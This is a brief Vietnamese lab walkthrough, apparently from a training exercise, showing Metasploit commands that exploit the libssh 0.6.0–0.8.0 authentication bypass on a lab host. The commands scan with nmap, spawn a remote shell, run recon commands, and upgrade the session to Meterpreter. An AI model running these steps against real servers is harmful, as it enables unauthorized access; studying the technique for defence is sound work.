

# Exploiting A Vulnerable SSH Server

libssh v0.6.0-0.8.0 bị RCE

Mở MSF 

chạy nmap:

`db_nmap -sS -sV -O 192.66.211.3`

`search libssh_auth_bypass`

`use auxiliary/scanner/ssh/libssh_auth_bypass`

`set SPAWN_PTY true` -> set chạy phiên PTY trên máy đích

`run`

`sessions`

`sessions 1`

Lấy 1 số thông tin khi vào shell 

`id`

`cat /etc/*release`

`uname -r`

Shell to Meterpreter post exploitation

`background` # or CTRL+Z

`search shell_to_meterpreter`

`use post/multi/manage/shell_to_meterpreter`

`set SESSION 1`

`set LHOST eth1`

`run`

`sessions`

`sessions 2`

